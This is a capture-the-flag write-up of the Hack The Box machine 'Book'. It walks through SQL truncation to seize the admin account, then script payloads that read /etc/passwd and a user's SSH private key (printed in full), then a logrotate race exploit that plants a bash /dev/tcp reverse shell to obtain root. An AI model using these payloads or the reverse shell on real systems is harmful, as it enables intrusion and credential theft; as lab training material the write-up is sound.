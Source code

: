 ```yaml
---
path: "/htb-book"
title: "Hack The Box - Book"
date: "07/12/2020"
featuredImage: ../../images/book.png
tags: ["pentesting", "hackthebox", "linux"]
---
```


Book left me with a lot of mix feelings. There was a lot of frustration as the attacker vectors were new for me, but also I was happy with adding them to my arsenal.

Start things off with an NMAP scan. This revealed that the only 2 ports opened are 22 and 80.

```
nmap -A -p- -T4 -oA Nmap/all -Pn 10.10.10.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-25 20:34 EDT
Warning: 10.10.10.176 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.176
Host is up (0.17s latency).
Not shown: 65382 closed ports, 151 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This maps out the path to exploiting this box. We will need to compromise the server via the web-server and potentially pivot to using SSH based on the goodies we can find.

Visiting the site on port 80, it presents you with a login page.

![Landing Page](../../images/book/landingpage.png)

Gobuster also reveals that there is an admin portal at “/admin”. Admin credential is need to login. Going back to user login, we can create an account as a regular user and start poking around.

![Homepage](../../images/book/homepage.png)

From the contact page you can see that the admin’s email is “admin@book.htb”. Also from the collections, a user can upload a book. There is not much to do from here on. The effort now is to pivot to the admin account. For this back to the login page.

Inspecting the login page, you can see the Frontend validation for the login page.

```js
function validateForm() {
  var x = document.forms["myForm"]["name"].value
  var y = document.forms["myForm"]["email"].value
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters")
    return false
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters")
    return false
  }
}
```

At first sight this did not show much potential to me, but after much goggling I stumble on SQL Truncation vulnerability. The gist of this vulnerability is that when a string cannot fit into a set length, it is truncated when saved to the database; if a MySQL db is used. If the application server does validation to see if the string exist it will return false. In this case, you pass the admin email padded with a lot of space and terminated with a character to prevent any white space stripping that might occur.

![Burp](../../images/book/burp.png)

From here on we can login as the admin in the admin portal using the password “jdoee”.

![Admin Panel](../../images/book/admin-panel.png)

From the admin portal we can generate a list of all book entries with Author and title. This list is exported as a pdf.

From the user portal, we can add a book with it’s author and title. We can perform a local file read base on the technique described in this article. If html is posted as the title, it will be evaluated. Following technique described in the mentioned article, we can grab the contents of the passwd file. Fill the form with the following values and any file uploaded.

```
Book Title: <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

Author: <anything>
```

From the admin portal, we can get the list of collectible which in the case will have the contents of the passwd file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-
network:x:100:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-
resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

From here we can find users to pivot to. From the list, “reader” shows potential. We can retrieve the SSH key of this user using the same method as the passwd.

```
Book Title: <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText.fontsize(0.5))};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

The same process as before, we retrieve the key from the generated pdf from the admin portal.

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```

This key can be used to ssh as the user reader.

Efforts can now be shifted to elevating to the “root” account. From running linpeas enumeration scripts you will see that this machine is vulnerable to the logrotate exploitation.

> There is a vulnerability on logrotatethat allows a user with write permissions over a log file or any of its parent directories to make logrotatewrite a file in any location. If logrotate is being executed by root, then the user will be able to write any file in /etc/bash_completion.d/ that will be executed by any user that login.

This vulnerability is base on a race condition in logrotate. To exploit this vulnerability, we will use logrotten. The payload in this case will be create a reverse shell.

```
payloadfile

if [ `id -u` -eq 0 ]; then nohup bash -c 'bash -i >& /dev/tcp/10.10.14.3/1337 0>&1'; fi
```

As a validation step, you can check the contents of “/etc/bash_completion.d”

```
reader@book:/etc/bash_completion.d$ ll
total 36
drwxr-xr-x  2 root root  4096 Feb 19 14:10 ./
drwxr-xr-x 99 root root  4096 Feb 19 14:09 ../
-rw-r--r--  1 root root  6636 Nov 20  2017 apport_completion
-rw-r--r--  1 root root  3211 Oct  2  2018 cloud-init
-rw-r--r--  1 root root   439 Nov 26  2018 git-prompt
-rw-r--r--  1 root root 11144 Mar 18  2019 grub
```

Now we execute the exploit as follows

`./logrotten -p payloadfile /home/reader/backups/access.log`

The execution will hang listening for a change in “access.log". This can be achieved by writing to this file.

`echo blah > /home/reader/backups/access.log`

The exploit will continue execution after this. To validate the exploit, check the contents again of “/etc/bash_completion.d/”. It should contain “access.log” and its content should be the payload.

```
reader@book:/etc/bash_completion.d$ ll
total 40
drwxr-xr-x  2 root   root    4096 Jul 12 17:31 ./
drwxr-xr-x 99 root   root    4096 Feb 19 14:09 ../
-r-xr-xr-x  1 reader reader    89 Jul 12 17:31 access.log*
-rw-r--r--  1 root   root    6636 Nov 20  2017 apport_completion
-rw-r--r--  1 root   root    3211 Oct  2  2018 cloud-init
-rw-r--r--  1 root   root     439 Nov 26  2018 git-prompt
-rw-r--r--  1 root   root   11144 Mar 18  2019 grub
reader@book:/etc/bash_completion.d$ cat access.log
if [ `id -u` -eq 0 ]; then nohup bash -c 'bash -i >& /dev/tcp/10.10.14.23/1337 0>&1'; fi
```

Now we wait for a root login and we will get a reverse shell.

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.176] 56856
root@book:~# ls
ls
clean_backup.sh
clean.sh
cron_root
log.cfg
log.sh
nohup.out
reset.sh
root.txt
```

That wraps up this box. Till the next one.
